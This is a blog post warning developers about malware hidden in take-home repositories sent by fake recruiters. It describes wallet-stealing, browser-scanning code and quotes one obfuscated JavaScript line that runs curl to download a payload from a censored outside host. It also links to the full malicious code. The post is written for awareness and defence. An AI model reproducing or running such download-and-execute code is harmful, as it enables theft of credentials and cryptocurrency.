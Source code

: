 ```yaml
---
aliases:
- /en/you-could-lose-all-your-crypto-in-a-job-interview/
authors:
- Eduardo Zepeda
categories:
- opinion
coverImage: images/tech-interview-hacking-obfuscated-code.jpg
date: '2024-12-14T22:24:22-06:00'
description: This is the story about a guy who was about to lose all his crypto and
  probably get hacked in a job interview for a remote position
keyword: ''
keywords:
- crypto
- interview
- github
- hacking
- docker
title: You Could Lose All Your Crypto In a Job Interview
---
```


The other day I was browsing Elon Musk's political propaganda machine, also known as X, and came across this gem of human shamelessness, an interviewer who nearly hacked one of his applicants.

## Running malware in job interviews.

The story goes like this: you're in need of a job, you're attending the interview remotely, [the recruiter asks you to clone a Github library]({{< ref path="/posts/git/el-problema-de-usar-github-para-evaluar-a-desarrolladores/index.md" lang="en" >}}) to find bugs in the code, an average interview for a developer position, all looks normal up to this point. Of course you, in need of a good job, decide to go through with the process.

Well, this guy was smart enough to read the code to be executed before blindly executing his voluminous *node_modules* directory. And what did he find? A succulent and delicious minimized code, also obfuscated and with hints of putting your computer to mine cryptocurrencies. 

Our friend was like George, curious, so he reformated the code and found:

- Lines that appear to search and read the contents of Solana wallets.
- Scripts that scan browser directories.  
- [API calls to an IP address]({{< ref path="/posts/software-architecture/caracteristicas-basicas-de-una-api-rest/index.md" lang="en" >}}), with no domain, some with no response at all and some that download obfuscated Python scripts (I guess it follows up the hacking process by installing a backdoor or some RAT).


If you want to ~~infect yourself~~ read the code, visit [the github repository](https://gist.github.com/jbrit/9a6525d086411a0fcffea202f368e780#file-initial-obfuscated-iife-js#?), I take no responsibility for anything though.

``` javascript
_0x42b722(“curl -Lo” + _0x157519 + “\” + “http://<censored>/pdown” + “\””, (_0x204dd7, _0x6e1c16, _0x52b515) => {
  if (_0x204dd7) {
    _0x517b73 = 0;
    return void _0x70af27();
  })
```

{{<ad>}}

## How do we avoid falling into these traps?

I don't plan to stand alone in the drama. This is about offering some practical solutions so that script kiddies don't make fun of you:

### **Use a different device**.

The most comfortable option, but also the most expensive, keep your devices separate, use one computer for work and technical interviews and another for your personal stuff, cryptocurrencies included. 

**Read the code, whenever possible**.

Recruiter sends you a script? Examine it carefully before you run it. Yes, I know, sometimes the code is too long or obfuscated, but if you have some experience, you can rapidly examine the screen with your eyes and spot the most obvious red flags. Of course, you can't waste all afternoon on this especially if you're in a real interview or value your time.

### **Use a virtual machine**.

Mount a virtual machine, either Virtual Box or Gnome Boxes, on Linux, or a [completely isolated Docker container](/en/docker/the-most-useful-and-basic-docker-commands/), if you don't mind not having a graphical interface. 

Another option available, and my personal favorite: a live USB with the distribution of your choice (Debian, Fedora, or whatever you want), 

That way, the worst that can happen is that they infect your virtual machine and not your real computer with all your personal information. Just be careful with shared volumes! If you mount the hard drive that contains sensitive information in the VM, you're toast.

**Encrypt your sensitive information**.

Here comes in the classic advice from old-school IT veterans: **encrypt your important data**. If someone manages to access your collection of kitten memes,it will be just a garbage of non-sense zeroes and ones. 

I don't plan to offer details because there is already too much information on the internet about GPG and its alternatives, Google GPG or read the manual directly, if you are not that familiar with the terminal or don't want to become a Linux or math nerd, there are tools like Kleopatra, which could make cryptography more intuitive to use.

## Don't run arbitrary code on your personal machine.

Do you have better ideas to protect us from black hat interviews? Drop your tips on social media and tag me. I look forward to adding your suggestions to the post. 

If you want to read the full story give Elon's blog a visit.... I mean X. Edited: the owner of the account changed his privacy settings so now you can't watch the full conversation.